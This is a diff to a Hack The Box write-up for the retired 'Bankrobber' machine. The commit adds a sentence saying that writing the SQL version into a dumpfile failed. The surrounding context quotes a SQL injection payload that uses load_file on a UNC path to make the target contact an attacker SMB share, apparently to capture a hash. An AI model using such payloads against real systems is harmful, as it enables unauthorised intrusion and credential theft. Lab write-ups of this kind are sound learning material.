

Before and after one commit to 1emvr/HacktheBox, a Markdown page: Retired/Bankrobber/00 - Bankrobber.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/Retired/Bankrobber/00 - Bankrobber.md
+++ b/Retired/Bankrobber/00 - Bankrobber.md
@@ -161,6 +161,6 @@ Querying `term=1'union select load_file('\\\\10.10.14.2\\test'),2,3;-- -`
 
 ```
 
-I don't know why this worked and Osanda's did not. Obviously it uses a system command to reach out to a server similar to `net use \\IP\.` I will have to continue reading about it.
+I don't know why this worked and Osanda's did not. Obviously it uses a system command to reach out to a server similar to `net use \\IP\.` Trying to get the SQL version number into a dumpfile did not seem to catch. I will have to continue reading about it.
 
 Also, this hash does not seem crackable, taking note that we have another user named `Cortin.`
````
